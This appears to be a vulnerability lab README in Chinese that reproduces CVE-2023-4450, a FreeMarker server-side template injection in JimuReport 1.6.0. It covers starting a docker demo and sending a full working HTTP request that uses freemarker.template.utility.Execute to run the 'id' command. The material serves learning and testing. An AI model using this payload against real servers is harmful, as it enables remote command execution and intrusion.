 # JeecgBoot JimuReport FreeMarker 服务端模板注入命令执行（CVE-2023-4450）

积木报表（JimuReport）是隶属于JeecgBoot项目下的一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。

参考链接：

- <https://github.com/advisories/GHSA-j8h5-8rrr-m6j9>
- <https://whoopsunix.com/docs/java/named%20module/>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell/>

## 漏洞环境

执行如下命令启动一个JimuReport 1.6.0演示服务器：

```
docker compose up -d
```

等待一段时间后，访问`http://your-ip:8085`即可看到报表首页。

## 漏洞复现

发送如下请求，即可在服务端注入FreeMarker模板`<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

可见，`id`命令已经成功被执行：

![](1.png)
